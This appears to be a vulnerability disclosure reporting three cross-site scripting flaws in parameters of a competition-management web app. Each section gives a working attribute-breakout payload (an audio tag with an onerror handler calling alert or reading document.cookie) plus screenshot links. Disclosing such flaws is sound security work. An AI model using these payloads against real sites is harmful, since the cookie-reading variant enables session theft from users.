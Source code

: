 # xss1
By injecting malicious instruction code into the web page, the user can load and execute the web page program maliciously created by the attacker.


Competition name: rh.raceName parameter
![image](https://user-images.githubusercontent.com/83150001/115981725-864a7180-a5c8-11eb-9e87-3054aaf157a1.png)

payload：
	`test"><audio src=x onerror=alert(2)>`
	
	`test"><audio src=x onerror=alert(document.cookie)>`
	
![image](https://user-images.githubusercontent.com/83150001/115981744-a1b57c80-a5c8-11eb-8b91-4c3d99daff55.png)
  
  ![image](https://user-images.githubusercontent.com/83150001/115981949-1341fa80-a5ca-11eb-9937-03b63c65449c.png)

  
  
# xss2 
By injecting malicious instruction code into the web page, the user can load and execute the web page program maliciously created by the attacker.

Competition name: rh.intro parameter
payload：
	`test"><audio src=x onerror=alert(2)>`
	
	`test"><audio src=x onerror=alert(document.cookie)>`
	
![image](https://user-images.githubusercontent.com/83150001/115982333-e3482680-a5cc-11eb-8745-eedde01dd7fa.png)

![image](https://user-images.githubusercontent.com/83150001/115982354-feb33180-a5cc-11eb-8246-951c19453498.png)

![image](https://user-images.githubusercontent.com/83150001/115982368-14285b80-a5cd-11eb-8851-d0cc7311d9ea.png)



# xss3
By injecting malicious instruction code into the web page, the user can load and execute the web page program maliciously created by the attacker.

Competition name: rh.inTro parameter
payload：
	`test"><audio src=x onerror=alert(2)>`
	
	`test"><audio src=x onerror=alert(document.cookie)>`
	
![image](https://user-images.githubusercontent.com/83150001/115982412-4df96200-a5cd-11eb-9532-3122a84fefc4.png)


![image](https://user-images.githubusercontent.com/83150001/115982392-2bffdf80-a5cd-11eb-8700-985593376acd.png)

![image](https://user-images.githubusercontent.com/83150001/115982407-3d48ec00-a5cd-11eb-9aa8-7cf98b2316e5.png)


